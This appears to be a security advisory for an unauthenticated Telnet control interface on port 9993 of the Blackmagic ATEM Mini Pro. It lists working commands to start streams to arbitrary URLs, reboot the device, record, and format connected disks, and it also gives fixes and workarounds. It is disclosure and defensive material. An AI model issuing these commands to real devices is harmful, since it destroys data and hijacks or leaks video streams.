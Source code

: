 # Blackmagic ATEM Mini Pro – Code Execution via Telnet (Port 9993)

## Description:
The Blackmagic ATEM Mini Pro exposes an undocumented Telnet service on TCP port 9993, which accepts unauthenticated plaintext commands for controlling streaming, recording, formatting storage devices, and system reboot. This interface, referred to as the "ATEM Ethernet Protocol 1.0", provides complete device control without requiring credentials or encryption. An attacker on the same network (or with remote access to the exposed port) can exploit this interface to execute arbitrary streaming commands, erase disks, or shut down the device — effectively gaining full remote control.

## Product
**Blackmagic Design – ATEM Mini Pro**  
**Firmware/Software Version:** 2.7

## Vulnerability Type
**Code Execution (CE)**

## Affected Component(s)
- Telnet Service on Port 9993
- Streaming Control Interface

## Attack Vector(s)
An unauthenticated attacker with network access to port `9993` can send raw text commands over Telnet to control and alter device functionality. This includes launching or stopping live streams, changing configurations, formatting connected drives, and rebooting the system.

---

## Vulnerable Endpoint
- **Port:** `9993`
- **Protocol:** Telnet (Blackmagic ATEM Ethernet Protocol 1.0)

## Exploit Example
  
  ```sh
  telnet <target-ip> 9993
  ```
## Example Output:
  ```sh
  Connected to <target-ip>.
  Escape character is '^]'.
  
  500 connection info:
  protocol version: 1.0
  model: ATEM Mini Pro
  friendly name: ATEM Mini Pro
  unique id: 316b239a63ea45b9bf47fedc5ca480c0
  ```

# Available Exploitable Commands:

   * Start Streaming:
     ```sh
     stream start: url: rtmps://example.com/live key: stream-key
     ```
   * Start Streaming with Custom Bitrate:
     ```sh
     stream start: url: rtmps://example.com/live key: stream-key bitrate: 3000000
     ```
   * Stop Streaming:
     ```sh
     stream stop
     ```
   * Reboot Device:
     ```sh
     reboot
     ```
   * Record Video:
     ```sh
     record
     record: name: hacked_clip
     ```
   * Format Connected Disk:
     ```sh
     format: slot id: 0 prepare: exFAT name: hacked
     format: confirm: <token>
     ```
# CE
you can use on of this tools
* https://pypi.org/project/pyatem/
* https://github.com/roygdavis/ATEMWeb
* https://github.com/filiphanes/atem-live-controller

## Proof of Concept (PoC) for(CE,Information Disclosure)
<img width="1718" height="868" alt="Image" src="https://github.com/user-attachments/assets/bf0ea3b8-9553-42a0-945a-982c1794295f" />

https://github.com/user-attachments/assets/357c0349-e275-466f-a97c-7eca4d189a3f

## Impact

This vulnerability allows attackers to:

    Start or stop live streams to arbitrary destinations.

    Reboot or crash the device remotely.

    Format connected storage media (potential data loss).

    Control recording functionality.

    Modify streaming settings without authorization.

All of this is possible without any authentication.

## Suggested Fixes

    Restrict access to port 9993 via firewall rules.

    Disable Telnet service, if not in use.

    Update firmware if Blackmagic Design releases a patched version.

    Implement authentication for command access in future firmware releases.

## Workarounds

    Block port 9993 on external-facing firewalls and routers.

    Use VLANs or isolated management networks to separate control interfaces from public access.

    Monitor device network activity for unexpected command patterns.


